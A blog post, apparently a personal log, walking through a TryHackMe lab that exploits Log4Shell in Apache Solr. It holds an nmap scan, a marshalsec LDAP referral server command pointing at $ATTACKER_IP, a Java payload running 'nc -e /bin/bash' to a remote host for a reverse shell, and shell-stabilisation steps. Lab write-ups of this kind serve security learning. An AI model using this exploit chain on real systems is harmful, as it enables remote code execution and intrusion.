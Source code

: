 ```yaml
---
title: 'TryHackMe: Complete Beginner (Supplements) &amp; Exploiting Log4j'
date: 2022-01-02 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-01-02-tryhackme-complete-beginner-supplements-and-exploiting-log4j.html
author: 100007
---
```


Finishing up the supplemental rooms around the TryHackMe: Complete Beginner sequence and then working through a special room covering the recently discovered Log4j vulnerabilities as a fun aside.

- [TryHackMe: Complete Beginner](https://tryhackme.com/path-action/beginner/)
- [TryHackMe: Solar, exploiting log4j](https://tryhackme.com/room/solar)

# TryHackMe: Complete Beginner (Supplements)

## Retro

[See my Retro CTF write-up.](https://cardboard-iguana.com/notes/tryhackme-retro.html)

# Exploiting Log4j

## Reconnaissance

The target has an IP address of 10.10.177.64. We’ll start off with a normal nmap scan, though I’m going to be a bit less aggressive since we’re just looking to enumerate ports/services.

```
sudo nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
```

This gives us:

```
# Nmap 7.92 scan initiated Sun Jan 2 20:58:25 2022 as: nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
Nmap scan report for 10.10.177.64
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 e2:35:e1:4f:4e:87:45:9e:5f:2c:97:e0:da:a9:df:d5 (RSA)
| 256 b2:fd:9b:75:1c:9e:80:19:5d:13:4e:8d:a0:83:7b:f9 (ECDSA)
|_ 256 75:20:0b:43:14:a9:8a:49:1a:d9:29:33:e1:b9:1a:b6 (ED25519)
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo: 
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
|_ 100000 3,4 111/udp6 rpcbind
8983/tcp open http Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.177.64:8983/solr/
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods: 
|_ Supported Methods: GET HEAD POST OPTIONS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/2%OT=22%CT=1%CU=42554%PV=Y%DS=4%DC=T%G=Y%TM=61D276A8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 44.471 days (since Fri Nov 19 09:49:52 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT ADDRESS
1 29.11 ms 10.13.0.1
2 ... 3
4 171.20 ms 10.10.177.64

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 2 21:08:08 2022 -- 1 IP address (1 host up) scanned in 582.99 seconds
```

The service running on port 8983 has an HTML page title of “Solr Admin”, which seems to be part of Apache Solr.

- [Using “nmap”](https://cardboard-iguana.com/notes/nmap.html)
- [Apache Solr](https://solr.apache.org/)

## Proof of Concept

It’s still not 100% clear to me why use of LDAP is required to trigger Log4Shell, but I’m _guessing_ this is used because it’s one of the protocols that JNDI supports. This makes a little more sense given that JNDI stands for the Java Naming and _Directory_ Interface… But it still feels kinda wacky to me that one would store Java objects in… LDAP.

- [Java Naming and Directory Interface (Wikipedia)](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)

## Exploitation

This section makes the question I wrote above at least a little more clear – LDAP is providing a URL using a more sensible protocol like HTTP that JNDI is then loading the Java code from. So the sequence is malicious request -\> LDAP lookup -\> load Java code over HTTP.

A simple Java LDAP server that will do just this is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```
mvn clean package -DskipTests
```

And run with:

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
         marshalsec.jndi.LDAPRefServer \
         "http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```
public class Exploit {
	static {
		try {
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
}
```

Where 1.2.3.4 should match `$ATTACKER_IP` above, and 9999 is the port of the local listener. This can be compiled with:

```
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

- [Using “netcat”](https://cardboard-iguana.com/notes/netcat.html)

## Persistence

Generic netcat shell stabilization steps (when running bash at _both_ ends):

- Run `python3 -c "import pty; pty.spawn('/bin/bash')"` on the target.
- Background the reverse shell with Ctrl+Z.
- Run `stty raw -echo` to disable foreground echo (echo will be handled by the target).
- Foreground the reverse shell with `fg` (there won’t be any output).
- Hit Enter a couple of times to get back a prompt, and then `export TERM=xterm`.

That should be good enough.

